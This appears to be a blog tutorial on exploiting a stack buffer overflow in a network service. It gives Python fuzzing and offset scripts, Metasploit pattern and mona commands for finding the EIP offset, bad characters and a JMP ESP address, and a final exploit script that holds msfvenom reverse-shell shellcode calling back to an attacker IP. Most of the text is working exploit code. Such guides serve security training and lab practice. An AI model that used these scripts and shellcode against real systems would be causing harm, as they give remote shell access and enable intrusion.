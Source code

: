 ```yaml
---
author: Charlie T
title: Stack Buffer Overflow
date: 2024-03-10
description: A guide on how to conduct a stack-based buffer overflow
math: false
tags:
  - overflow
  - python
  - bufferoverflow
---
```

## Fuzzing

- Playing around with the application first to see how to send it bytes will allow to then do some fuzzing to see where and when it crashes
- Lets assume we have information on how to send data over to the application to being the fuzzing
```python
#!/usr/bin/python3
import sys, socket
from time import sleep
#Prefix is needed if the app requires a command to be sent with data
#prefix = "OVERFLOW3 " #Make sure to add prefix to payload
buffer = "A" * 100

while True:
    try:
        payload = buffer + '\r\n'
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.0.131', 31337))
        print("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()

```

- Pay attention to Immunity debugger, once it says `paused` that means the application has crashed. Take note at what amount of bytes the application crashed.
- In this example we will say that it crashed at `200 bytes`

## Finding the Offset

- Using a metasploit tool called pattern_create
```
#This will give us a pattern for our buffer variable
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
#why 200? thats where we saw that the crash happened approx in bytes
```
- Make sure to input this pattern into your buffer variable in the code:
```python
#!/usr/bin/python3
import sys, socket
#prefix = "OVERFLOW3 "
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- You will now be able to see the `EIP` which is what we need
![landscape](gettingthe_eip.png)

- Using a metasploit tool called pattern_offset
```
#This will give us the exact offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <approx bytes when crash> -q <EIP finding>
```

- In this case, our offset is 146

## Overwriting the EIP

- Now that we have our offset, we will add our offset number into our payload variable as such:
```python
#!/usr/bin/python3
import sys, socket

#prefix = "OVERFLOW3 "
buffer = "A" * 146 + "B" * 4

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- When we run this payload, we will see that we now have complete control of the EIP
![landscape](overwriting_eip.png)

- We can see that the EIP is 42424242, which tells us that we have control of the EIP

## Finding Bad Characters

- We will now try to find bad characters to remove them
1. First set mona's path with `!mona config -set workingfolder c:\mona\%p`
2. Using mona to generate bad chars with `!mona bytearray -b “\x00”`
3. Input the bad chars into our python script and run it
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"B" * 4

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"   b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"            b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"            b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

print('Sending payload...')
payload = buffer + badchars + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
4. Grab the `ESP` which in this case is `007419E4`. Mona will use the ESP to compare and find bad characters
5. Using mona to compare and find bad chars with `!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <ESPaddress>`
![landscape](comparingbadchars_mona.png)
6. Remove the bad char from our badchars variable in our python script

## Finding a Jump Point

- Using mona to find a jump point with `!mona jmp -r esp -cpb “\x00\x0a”`
- Click on `l` to see all the available pointer addresses
- In this case we will use: `0x080414c3`
- We are only interested in the contents of the address that comes after "0x"

## Making Sure We Hit The Break point

- We have everything we need. We must make sure to set a jmp point at that address we received with mona
- To do this:
1. Restart Application and immunity Debugger
2. Click on the blue arrow and enter the address after the "0x" to follow it: `080414c3`
3. You will see the "address FFE4 JMP ESP", Now click F2 and it should be highlighted which means the JMP is now set
- Now just put our pointer address into our python script as such:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
#Note that our address 080414C3 is now written backwards in pairs of two with an x in front
buffer = b"A" * 146 + b"\xc3\x14\x04\x08"
print('Sending payload...')
payload = buffer + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
- Run the payload and we should see a message in immunity debugger that says `breakpoint at <program>`

## Malicious Time!

- Create a reverse shell payload with meterpreter:
```
#Make sure to put all of your bad chars found
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.33.34 LPORT=1234 -b "\x00\x0a" -f c
```
- Grab the output and input into the variable bad chars in our python script
- Then edit the IP to the target IP and start a listener on the port specified with msfvenom:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"\xc3\x14\x04\x08" + b"\x90" * 32

payload2 = (b"\xda\xcf\xba\xbe\x17\x2b\x4f\xd9\x74\x24\xf4\x5f\x33\xc9"            b"\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\xe9\x04\xc9\xba\xe9"
b"\xc3\x8f\x45\x11\x14\xf0\xcc\xf4\x25\x30\xaa\x7d\x15\x80"            b"\xb8\xd3\x9a\x6b\xec\xc7\x29\x19\x39\xe8\x9a\x94\x1f\xc7"
b"\x1b\x84\x5c\x46\x98\xd7\xb0\xa8\xa1\x17\xc5\xa9\xe6\x4a"            b"\x24\xfb\xbf\x01\x9b\xeb\xb4\x5c\x20\x80\x87\x71\x20\x75"
b"\x5f\x73\x01\x28\xeb\x2a\x81\xcb\x38\x47\x88\xd3\x5d\x62"            b"\x42\x68\x95\x18\x55\xb8\xe7\xe1\xfa\x85\xc7\x13\x02\xc2"
b"\xe0\xcb\x71\x3a\x13\x71\x82\xf9\x69\xad\x07\x19\xc9\x26"            b"\xbf\xc5\xeb\xeb\x26\x8e\xe0\x40\x2c\xc8\xe4\x57\xe1\x63"
b"\x10\xd3\x04\xa3\x90\xa7\x22\x67\xf8\x7c\x4a\x3e\xa4\xd3"            b"\x73\x20\x07\x8b\xd1\x2b\xaa\xd8\x6b\x76\xa3\x2d\x46\x88"
b"\x33\x3a\xd1\xfb\x01\xe5\x49\x93\x29\x6e\x54\x64\x4d\x45"            b"\x20\xfa\xb0\x66\x51\xd3\x76\x32\x01\x4b\x5e\x3b\xca\x8b"
b"\x5f\xee\x5d\xdb\xcf\x41\x1e\x8b\xaf\x31\xf6\xc1\x3f\x6d"            b"\xe6\xea\x95\x06\x8d\x11\x7e\x23\x5f\x38\x5c\x5b\x5d\x3a"
b"\xa4\x49\xe8\xdc\xce\x7d\xbd\x77\x67\xe7\xe4\x03\x16\xe8"            b"\x32\x6e\x18\x62\xb1\x8f\xd7\x83\xbc\x83\x80\x63\x8b\xf9"
b"\x07\x7b\x21\x95\xc4\xee\xae\x65\x82\x12\x79\x32\xc3\xe5"            b"\x70\xd6\xf9\x5c\x2b\xc4\x03\x38\x14\x4c\xd8\xf9\x9b\x4d"
b"\xad\x46\xb8\x5d\x6b\x46\x84\x09\x23\x11\x52\xe7\x85\xcb"            b"\x14\x51\x5c\xa7\xfe\x35\x19\x8b\xc0\x43\x26\xc6\xb6\xab"            b"\x97\xbf\x8e\xd4\x18\x28\x07\xad\x44\xc8\xe8\x64\xcd\xf8"
b"\xa2\x24\x64\x91\x6a\xbd\x34\xfc\x8c\x68\x7a\xf9\x0e\x98"
b"\x03\xfe\x0f\xe9\x06\xba\x97\x02\x7b\xd3\x7d\x24\x28\xd4"            b"\x57")

print('Sending payload...')
payload = buffer + payload2 + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.20.232', 31337))
s.send(payload)
s.close()
```

- Success!
![landscape](successfulBoF.png)
